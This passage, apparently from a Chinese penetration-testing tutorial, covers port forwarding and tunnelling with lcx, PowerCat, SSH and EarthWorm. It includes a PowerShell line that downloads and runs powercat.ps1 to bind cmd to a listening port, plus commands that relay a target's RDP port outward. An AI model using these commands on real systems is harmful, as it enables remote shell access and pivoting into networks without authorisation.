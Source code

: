 复制代码

```
＃将本机端口 111 的通信数据转发到本机端口 222

lcx.exe -listen 111 222

＃将目标机器端口3389的通信数据转发到公网机器端口4444

lcx.exe -slave {公网IP} 4444 127.0.0.1 3389

＃访问本地端口111即访问目标IP的3389端口

lcx.exe -tran 111 {目标IP} 3389
```

#### 3.PowerCat

PowerCat 是 netcat 的 PowerShell 版本，它允许本地执行，也可远程执行。常用的远程执行命令如下，下载 PowerShell 脚本进行执行，它会在本地监听 8000 端口，并关联 cmd：

复制代码

```
powershell “IEX (New-Object

System.Net.Webclient).DownloadString(‘https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat

-l -p 8000 -e cmd”
```

然后攻击者主动连接 8000 端口，即可获取 shell 权限。

#### 4.SSH

几乎所有的 Linux/Unix 服务器都会支持 SSH 协议，在针对此类操作系统的攻击时就可以派上用场，用它来做代理和转发。

常用命令如下：

复制代码

```
＃通过跳板机访问目标IP

ssh -CNfg -L 2121:{目标IP}:21 root@{跳板机IP}

＃访问攻击者IP的2121端口，即是访问目标IP

ssh -CNfg -R 2121:BIP:{目标IP} root@{攻击者IP}
```

#### 5.EarthWorm

[EarthWorm](https://github.com/idlefire/ew) 是一款用于开启 SOCKS v5 代理服务的工具，基于标准 C 开发，可提供多平台间的转接通信，用于复杂网络环境下的数据转发。
